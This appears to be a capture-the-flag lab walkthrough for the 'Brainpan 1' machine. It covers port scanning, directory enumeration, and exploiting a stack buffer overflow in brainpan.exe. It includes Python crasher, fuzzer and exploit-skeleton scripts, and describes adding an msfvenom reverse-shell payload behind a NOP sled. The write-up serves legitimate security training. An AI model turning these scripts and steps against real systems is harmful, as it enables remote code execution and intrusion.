










# Brainpan 1

## Description

Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.
* Difficulty: **Hard**
* Categories: Buffer Overflow

## Challenge

As always, we are given an IP address so let's start with an nmap scan.

```bash
sudo nmap -sS -v -T4 -p- $TARGET_IP
[REDACTED]
Nmap scan report for $TARGET_IP
Host is up (0.52s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 299.48 seconds
```

We have two open ports, 9999 and 10000. Let's start by connecting to port 9999.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc 10.10.190.2 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> no
                          ACCESS DENIED
```

We are greeted with a login prompt. Let's have a look at the 10000 port.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc 10.10.190.2 10000
hello
<head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>
<p>Error code 400.
<p>Message: Bad request syntax ('hello').
<p>Error code explanation: 400 = Bad request syntax or unsupported method.
</body>
```

Seems to be a web server. Let's try to access it via a browser.


A poster about safe coding. Seems to be nothing much here. Let's run a gobuster scan to see if there are any hidden directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt,php,html -u http://10.10.190.2:10000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.190.2:10000
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 215]
/bin                  (Status: 301) [Size: 0] [--> /bin/]
```

We have a `/bin` directory. Let's see what's inside.



We have a `brainpan.exe` file. Let's download it and run it in a Windows VM.



It is exactly the same as the login prompt we saw earlier. The log says it copies our input to a buffer. Let's check if it is vulnerable to buffer overflow with a crasher script as follows:

```python
#!/usr/bin/env python3

import socket

ip = "<VM_IP>"
port = 9999

buffer = "A" * 10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    s.recv(1024)
    s.send(bytes(buffer + "\r\n", "latin-1"))
    s.recv(1024)
    s.close()
except:
    print("Error connecting to the server")
    exit()
```



The program crashed, which means it is vulnerable. We need a fuzzing script to find the exact buffer size. It should look something like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<VM_IP>"
port = 9999
timeout = 5

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ip, port))
        print("Sending {} bytes...".format(len(buffer)))
        s.send(bytes(buffer + "\r\n", "latin-1"))
        s.recv(1024)
        buffer += "A" * 100
        time.sleep(5)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(buffer)))
        sys.exit(0)
```



The program crashed at 700 bytes. Let's create a pattern to find the exact offset.



Now we need a script to send our payload. It should look something like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<VM_IP>"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<PATTERN>"
postfix = "\r\n"

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer, "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

As we sent the pattern, it crashed and the EIP register was overwritten with `35724134`, which translates to `5rA4`. With little-endian encoding, we get `4Ar5`. We can now find the offset for our script.



Now we replace the offset in our script, set the return address to 4 `B`s and replace the payload with bytearray to find the bad characters.



We found all the bad characters. Now we need to find a jump point to our shellcode.



We found 1 jump point to place in our script. Now we need a shellcode to spawn a reverse shell. We can use msfvenom to generate a reverse shell payload.



Now we copy the shellcode into our script. We also need to prepend the shellcode with a NOP sled. Then we can run the script. We tested successfully so it's time to attack the target.



We have a shell. And we are done.